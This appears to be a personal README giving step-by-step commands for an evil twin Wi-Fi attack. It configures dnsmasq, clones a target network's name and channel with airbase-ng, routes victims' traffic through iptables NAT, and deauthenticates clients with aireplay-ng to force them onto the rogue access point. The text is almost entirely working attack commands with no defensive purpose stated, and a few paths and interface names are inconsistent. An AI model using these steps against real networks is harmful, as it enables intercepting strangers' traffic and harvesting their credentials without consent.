 How to Setup the Evil Network:
Follow this tutorial: https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/

# Prerequisites
- kali linux
- may need an external usb wifi adapter

1. Update Device
	`sudo apt-get update`
	
2. Install dnsmasq
	`apt-get install dnsmasq`
	
3. Configure dns masq
	`mkdir /Desktop/eviltwin`
	`cd /Desktop/eviltwin`
	`touch dnsmasq.conf`
	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

4. Update NetworkManager.conf
	`vim /etc/NetworkManager/NetworkManager.conf`
	Add these lines to the end: 
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

5. Connect the usb network adapter
	see that it is connected with: `iwconfig`
	It should be named wlan0 or wlan1

5.5 Ensure the wireless card is not connected to internet
	`nmcli con`
	Disconnect from the network that is connected to our adapter
	`nmcli con down <UUID>`

6. Enable the wireless adapter
	`ifconfig wlan1 up`

7. Put the wireless card into network mode with airmon-ng
	- if you don't have the aircrack suite, google it and install it: https://www.aircrack-ng.org/doku.php?id=install_aircrack

	All the tutorials said to listen to airmon and `run airmon-ng check kill` as some services can interfere. But this never worked for me. So I ignore that suggestion.

	run: `airmon-ng start wlan1` to put card into monitor mode

8. Find the device to spoof and record the BSSID (mac address), channel, and ESSID
	 first update known manufacturer mac addresses of routers: `airodump-ng-oui-update`
	`airodump-ng wlan1mon`
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit `ctrl+c` and then copy that line to a text file

9. start up the evil twin AP (access point)
	Give the evil twin the same name as the network you are attacking for best results
	`airbase-ng -e "EvilTwinName" -c 11 wlan1mon`

10. Give the evil twin can access the internet.
	`ifconfig at0`
	give at0 an ip address: `ifconfig at0 10.0.0.1 up`

11. route all traffic through at0, this has had limited success.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

12. enable port forwarding: `echo 1 > /proc/sys/net/ipv4/ip_forward`

13. evil twin is now setup, now need to allocate ip addresses to clients
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`

14. NOW startup the webserver, see the tutorial for more info

15. Finally run the deauthorization attack and kick people off the legit network onto ours
	- TODO will add details on this later too

16. now deauthorize clients so they connect to our network
	aireplay-ng –deauth 0 -a <BSSID> wlan0mon






